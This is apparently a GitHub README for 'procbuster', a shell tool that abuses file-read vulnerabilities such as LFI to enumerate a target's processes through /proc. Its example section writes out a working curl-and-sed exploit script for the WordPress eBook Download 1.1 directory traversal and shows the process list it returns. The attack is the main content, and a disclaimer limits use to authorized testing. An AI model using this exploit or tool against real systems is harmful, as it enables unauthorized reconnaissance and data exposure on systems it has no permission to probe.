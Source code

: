 # procbuster

`procbuster` is a shell-based system process enumerator that exploits arbitrary file read vulnerabilities (e.g. Local File Inclusion) to **brute-force the `/proc` directory** on a target machine. It reads each process’s `status` and `cmdline` files to list running processes — without shell access. The output mimics `ps`, making it easy to identify system activity and active services during exploitation.

---
### :warning: DISCLAIMER  
This project is intended **for educational, research, and authorized security testing purposes only**.  
**Do not use this code on systems you do not own or have explicit permission to test.**  
The author is **not responsible** for any damage or misuse.

---
### Usage

```
┌──(magicrc㉿perun)-[~/code/procbuster]
└─$ ./procbuster.sh -h                                   
Lists processes by brute-forcing /proc PIDs and reading status and cmdline.

Usage: ./procbuster.sh [--file-read-cmd CMD] [--max-pid MAX_PID] [--help]

Options:
  --file-read-cmd CMD    Command used to read files, e.g. curl piped with sed stored in dedicated script / binary (default: cat)
  --max-pid MAX_PID      Maximum PID to check (default: 65535)
  -h, --help             Show this help message
```

### Example
Using Wordpress eBook Download 1.1 Directory Traversal vulnerability
```
┌──(magicrc㉿perun)-[~/code/procbuster]
└─$ { cat <<'EOF'> exploit.sh
#!/bin/bash

curl -s -o - "http://target/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../../../..$1" \
    | sed "s|\(../../../../../..${1}\)\+||g" \
    | sed 's#<script>window\.close()</script>$##'
EOF
} && chmod +x exploit.sh && \
./procbuster.sh --file-read-cmd ./exploit.sh --max-pid 20
PID     USER                 CMD
1       root                 /sbin/init auto automatic-ubiquity noprompt 
2       root                 [kthreadd]
3       root                 [rcu_gp]
4       root                 [rcu_par_gp]
6       root                 [kworker/0:0H-kblockd]
7       root                 [kworker/0:1-events]
9       root                 [mm_percpu_wq]
10      root                 [ksoftirqd/0]
11      root                 [rcu_sched]
12      root                 [migration/0]
13      root                 [idle_inject/0]
14      root                 [cpuhp/0]
15      root                 [cpuhp/1]
16      root                 [idle_inject/1]
17      root                 [migration/1]
18      root                 [ksoftirqd/1]
20      root                 [kworker/1:0H-kblockd]
```